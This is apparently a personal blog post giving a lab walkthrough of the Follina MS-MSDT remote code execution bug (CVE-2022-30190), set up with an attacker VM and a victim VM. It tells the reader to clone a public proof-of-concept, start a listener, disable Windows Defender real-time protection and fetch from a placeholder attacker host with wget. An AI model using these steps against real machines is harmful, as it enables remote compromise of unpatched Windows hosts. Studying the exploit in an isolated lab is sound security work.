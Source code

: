 ```yaml
---

title:  "How to exploit the Zero-Day CVE-2022-30190 MS-MSDT Follina"
excerpt: "In this post I will show you the MS-MSDT Follina exploit (CVE-2022-30190)"
mathjax: true
layout: post
categories:
    -- github
    -- website

---
```

1 . Introduction
<br>
2 . My Setup
<br>
3 . Exploit in Action!<br>
---

--- 
## This post is designed to teach you how to exploit the MS-MSDT Follina vulnerability!

---

### 1. Introduction

*I want to give thanks and credit to **John Hammond** and his work with the Huntress team identifying and showing exactly how this exploit works! Check out his [Youtube](https://www.youtube.com/watch?v=dGCOhORNKRk&ab_channel=JohnHammond) or the Huntress [blog](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug).*

- At the bottom of this blog post I have a short GIF showing the exploit in action.

- This zero-day is a vulnerability which has been announced and unpatched for the past 2 days as of writing this article.

- The vulnerability takes advantage of the Microsoft Diagnostics Tool (MSDT) and other Microsoft utilities. 

- Basically, the attacker can send you a seemingly harmless word document, however, once you open the document (or even preview pane) the malicious remote code execution happens and the attacker has just infected your computer with a virus, a command and control access point, crypto coin miner, etc. 

---

### 2. My Setup

For my attack computer I ran kali Linux in VMWare Workstation 16 player using NAT and HOST virtualized ethernet adapters.

I ran my victim computer on an evaluation Windows 11 virtualized machine in VMWare Workstation 16 player using a HOST-Only virtualized ethernet adapter.

---

### 3. Exploit in Action!

John Hammond made the exploit accessible via his GitHub [here](https://github.com/JohnHammond/msdt-follina) as a simple python script which creates the malicious file, opens a listener, and hosts the malicious file.

**Prior to starting the exploit**

You may have malware protection and defender services for your endpoint hosting these Virtual Machines. It may stop your virtual machines from transferring and running the python script. Therefore, at your discretion you may need to turn off these services to see the functional exploit. 

*Proceed at your own risk*

**On Attack Device**


    #Step 1: 

    git clone https://github.com/JohnHammond/msdt-follina.git

    #Step 2:
    python3 Follina.py -r <port number of choice>

**On victim**

    #Step 3: Disable Windows Defender Real-Time Protection
![realtime](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/real-time.PNG)

    #Step 4: Open Powershell

    #Step 5:
    wget <attackerIP>:<port chosen in step 2>

You should have seen the Microsoft Diagnostics Tool load, and then you received connection at your listener on the attacking computer.

![gif](../assets/follina.gif)
---

